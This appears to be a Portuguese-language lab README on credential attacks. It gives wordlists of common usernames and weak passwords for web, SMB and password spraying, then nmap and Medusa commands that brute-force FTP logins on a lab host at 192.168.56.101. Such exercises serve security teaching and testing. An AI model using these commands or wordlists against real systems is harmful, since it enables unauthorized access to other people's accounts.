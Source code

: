 #### users_web.txt
```
admin
administrator
test
user
root
```

#### passwords_web.txt
```
password
admin
123456
password123
admin123
letmein
welcome
monkey
```

#### users_smb.txt
```
administrator
guest
admin
test
user
backup
ftp
```

#### passwords_spray.txt
```
Spring2024!
Password123
Company2024!
Welcome2024!
Admin2024!
Password1
```
---
<a id="ataque-de-brute-force-em-ftp-com-medusa"></a>
## 🔓 Ataque de Brute Force em FTP com Medusa

### Comandos Utilizados

```bash
# 1. Verificação do serviço FTP
nmap -p 21 192.168.56.101

# 2. Brute force com Medusa
medusa -H hosts.txt -U users_ftp.txt -P passwords_ftp.txt -M ftp -t 4 -v 6

# 3. Ataque direto com Medusa
medusa -h 192.168.56.101 -U users_ftp.txt -P passwords_ftp.txt -M ftp -t 4 -v 6

# 4. Medusa com opções específicas
medusa -h 192.168.56.101 -u admin -P passwords_ftp.txt -M ftp -e ns -f -v 6

# 5. Teste de acesso manual para validação
ftp 192.168.56.101
```
